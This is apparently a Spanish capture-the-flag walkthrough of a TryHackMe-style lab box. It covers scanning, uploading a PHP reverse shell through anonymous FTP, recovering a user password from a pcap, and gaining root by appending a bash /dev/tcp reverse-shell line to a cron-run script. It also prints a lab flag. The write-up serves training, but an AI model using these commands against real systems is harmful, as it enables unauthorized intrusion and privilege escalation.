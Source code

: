 Lo primero que haremos será hacer un nmap con el siguiente comando: 
sudo nmap -A -sV -sC -T4 -p- --defeat-rst-ratelimit 10.10.92.79

Ahora intentamos hacer fuzzing 
gobuster dir -u http://10.10.92.79/ -w /usr/share/wordlists/dirb/big.txt 

Y miramos y hay un /files si accedemos podemos ver que hay un servidor ftp:
Intentamos conectarnos con anonymous con el siguiente comando: 

ftp anonymous@10.10.92.79

![img](img/img01.png)
 
Una vez dentro haremos un put e intentaremos meter una reverse shell: 
put /home/kali/Desktop/php-reverse-shell.php ./php-reverse-shell.php
Y ahora la ejecutamos y ponemos en escucha nuestro kali linux: 
nc -lvnp 1234 y ya hemos entrado, ahora vamos a upgradear la shell con: 
python -c 'import pty; pty.spawn("/bin/bash")'

![img](img/img02.png)
 
Y sale que el ingrediente es /love, así que ya tenemos la primera respuesta.
Ahora hacemos un ls y vemos un directorio sospechoso, dentro vemos un pcap, nos lo pasamos a nuestra maquina con el comando: 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp
Y si lo abrimos con el wireshark veremos que hay varias peticiones al puerto 4444, le damos a follow --> TCP Stream y podemos ver algunos comandos donde encontramos la contraseña de lennie.

![img](img/img03.png)
 
Y ahora intentamos entrar por ssh con el siguiente comando: 
ssh lennie@10.10.92.79 y ya estamos dentro.
 
![img](img/img04.png)

Si hacemos un cat user.txt vemos la segunda flag la cual es: THM{***************}

Ahora haremos el siguiente comando para ver los binarios: 
find / -perm -u=s -type f 2>/dev/null
Y ahora hacemos un ls -lart y vemos que el script se puede ejecutar como root y que cada minuto se está actualizando, por lo tanto lleva un crontab y una tarea programada.

![img](img/img05.png)
 
Y buscamos bash reverse shell y lo metemos en el print.sh y ya ponemos el puerto en escucha y hacemos un ls y tenemos la flag.
Usando pspy64 pude ver que planner.sh se ejecuta cada minuto y modifica el contenido de startup_list.txt. 

![img](img/Img06.png)

 
Ahora haremos este comando para modificar /etc/print.sh
echo “bash -i >& /dev/tcp/<attackbox_ip>/<listening_port> 0>&1” >> /etc/print.sh”
Ahora pondremos el comando rlwrap nc .nlvp 4444 y en un minuto tendremos ya la Shell, accedemos con un ls y ya tenemos la flag: THM{f963aaa6a430f210222158ae15c3d76d}

![img](img/Img07.png)

